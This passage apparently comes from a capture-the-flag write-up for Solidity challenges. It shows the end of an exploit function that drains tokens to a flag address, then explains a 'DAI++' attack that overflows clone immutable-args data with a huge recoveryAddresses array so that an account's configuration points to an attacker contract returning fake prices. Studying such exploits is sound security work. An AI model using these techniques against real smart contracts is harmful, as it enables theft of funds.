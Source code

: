 ```solidity


    function STEP2() public {
        address t1 = r.createToken("a", "a");
        address t2 = r.createToken("b", "b");
        r.listing(t1, 1);
        r.listing(t2, 1);
        r.mint(t1, 1e16);
        r.mint(t2, 1e16);
        address pair_addr = r.createPair(t1, t2);
        Pair pair = Pair(pair_addr);
        Token(t1).transfer(address(pair), 1e15);
        Token(t2).transfer(address(pair), 1e15);
        pair.mint(address(this));

        pair.transfer(address(r.flagCharity()), pair.balanceOf(address(this)));
    }

    
}
```

### DAI++

The vulnerable code is
```solidity
    function _openAccount(address owner, address[] calldata recoveryAddresses) private returns (Account) {
        Account account = Account(
            SYSTEM_CONFIGURATION.getAccountImplementation().clone(
                abi.encodePacked(SYSTEM_CONFIGURATION, owner, recoveryAddresses.length, recoveryAddresses)
            )
        );

        validAccounts[account] = true;

        return account;
    }
```

In the implmentation of `clone`, it says

```
    /// @notice Creates a clone proxy of the implementation contract, with immutable args
    /// @dev data **cannot exceed 65535 bytes**, since 2 bytes are used to store the data length
    /// @param implementation The implementation contract to clone
    /// @param data Encoded immutable args
    /// @return instance The address of the created clone
```

Passing in a huge `recoveryAddresses` to `openAccount` will end up overwriting slots. I first wanted to control the `configuration` slot of an Account. So theoretically we can create an Account and overwrite the `configuration` to our evil contract, and let the evil contract return evil ETH price or collateral ratio.
